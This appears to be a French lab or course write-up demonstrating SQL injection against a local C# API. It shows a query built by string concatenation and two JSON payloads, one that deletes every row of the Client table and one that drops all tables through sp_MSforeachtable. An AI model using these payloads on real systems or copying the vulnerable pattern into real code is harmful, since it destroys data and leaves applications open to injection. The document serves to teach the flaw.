 # 04 Injection `SQL`



## Mon attaque

Table avant attaque :

<img src="assets/before-injection-sql-oob.png" alt="before-injection-sql-oob" style="zoom:50%;" />

Code du programme :

```cs
int InsertClient(SqlConnection con, ClientDto client)
{
    var sql = $"INSERT INTO Client (nom, prenom) VALUES ('{client.Nom}', '{client.Prenom}')";
    var cmd = new SqlCommand(sql, con);

    con.Open();
    var rowsAffected = cmd.ExecuteNonQuery();

    return rowsAffected;
}
```

Les données ne sont pas échappées et directement concaténées dans la requête.

Requête `sql attack`

```http
POST https://localhost:7094/client
Content-Type: application/json

{
    "nom": "toto",
    "prenom": "Raymond');DELETE FROM Client;INSERT INTO Client (nom, prenom) VALUES('kill','kill"
}
```

contenu de la variable `sql` :

<img src="assets/sql-var-content-gty.png" alt="sql-var-content-gty" style="zoom:50%;" />

```sql
INSERT INTO Client (nom, prenom) VALUES ('toto', 'Raymond');
DELETE FROM Client;
INSERT INTO Client (nom, prenom) VALUES('kill','kill')
```

Résultat de l'attaque :

<img src="assets/after-injection-sql-cxx.png" alt="after-injection-sql-cxx" style="zoom:50%;" />



### Version hardcore

On peut aussi détruire toutes les tables :

Avant

<img src="assets/before-all-attack-table-tgq.png" alt="before-all-attack-table-tgq" style="zoom:33%;" />

Code de la requête :

```http
POST https://localhost:7094/client
Content-Type: application/json

{
    "nom": "Raymond');EXEC sp_MSforeachtable @command1 = 'DROP TABLE ?';INSERT INTO Two (b) VALUES('kill"
}
```

Requête pour détruire toutes les tables (stackoverflow : https://stackoverflow.com/questions/27606518/how-to-drop-all-tables-from-a-database-with-one-sql-query)

```sql
EXEC sp_MSforeachtable @command1 = "DROP TABLE ?"
```

Résultat :

<img src="assets/after-all-table-attack-uui.png" alt="after-all-table-attack-uui" style="zoom:50%;" />

Les tables n'existant plus, cela lève une erreur.

